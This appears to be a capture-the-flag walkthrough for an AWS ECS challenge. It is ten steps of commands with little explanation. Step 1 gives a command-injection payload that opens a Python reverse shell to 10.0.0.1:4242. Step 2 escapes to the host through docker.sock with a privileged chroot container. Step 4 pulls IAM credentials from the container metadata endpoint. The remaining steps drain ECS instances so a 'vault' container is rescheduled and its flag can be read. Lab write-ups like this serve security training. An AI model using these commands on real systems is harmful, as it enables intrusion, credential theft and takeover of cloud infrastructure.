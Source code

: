 1. Exploit the website via command injection.

    ```bash
    ; export RHOST="10.0.0.1";export RPORT=4242;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

2. Use the docker.sock to deploy a new container 

    `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host`

3. List the container on the host

    `docker ps`

4. Get the container credentials from the "privd" container. 

    ```bash
        docker exec -it <container_id> sh 
        wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI `
    ``


5. List the clusters in the account 

    `aws ecs list-clusters --profile privd`

6. List tasks in the cluster

    `aws ecs list-tasks --cluster my-cluster --profile privd`

7. List container instances 

    `aws ecs list-container-instances --cluster my-cluster --profile privd `

8. Set container instance to DRANING 

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <value> --status DRAINING`

9. Wait for "Vault" container to be rescheduled. 

    `docker ps`

10. Get the flag from the "vault" container 

    `docker exec -it <container_id> cat /FLAG.txt`